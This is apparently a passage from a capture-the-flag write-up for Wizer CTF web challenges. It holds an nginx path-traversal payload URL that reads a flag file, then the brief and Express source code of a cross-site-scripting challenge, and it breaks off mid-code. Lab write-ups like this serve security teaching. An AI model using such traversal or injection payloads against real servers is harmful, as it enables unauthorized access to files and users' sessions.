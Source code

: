 Payload:
```shell
https://nginx.wizer-ctf.com/assets../flag.html
```

![image](md/bc9f3e63-0e08-4e37-8124-36fbd23bf7bd.webp)

<br>

### Recipe Book
> Inject an alert("Wizer")

Source code:

```js
const express = require('express');
const helmet = require('helmet');
const app = express();
const port = 80;

// Serve static files from the 'public' directory
app.use(express.static('public'));
app.use(
    helmet.contentSecurityPolicy({
      directives: {
        defaultSrc: ["'self'"],
        scriptSrc: ["'self'", ],
        styleSrc: ["'self'", "'unsafe-inline'", 'maxcdn.bootstrapcdn.com'],
        workerSrc: ["'self'"]
        // Add other directives as needed
      },
    })
  );

// Sample recipe data
const recipes = [
    {
        id: 1,
        title: "Spaghetti Carbonara",
        ingredients: "Pasta, eggs, cheese, bacon",
        instructions: "Cook pasta. Mix eggs, cheese, and bacon. Combine and serve.",
        image: "spaghetti.png"
    },
    {
        id: 2,
        title: "Chicken Alfredo",
        ingredients: "Chicken, fettuccine, cream sauce, Parmesan cheese",
```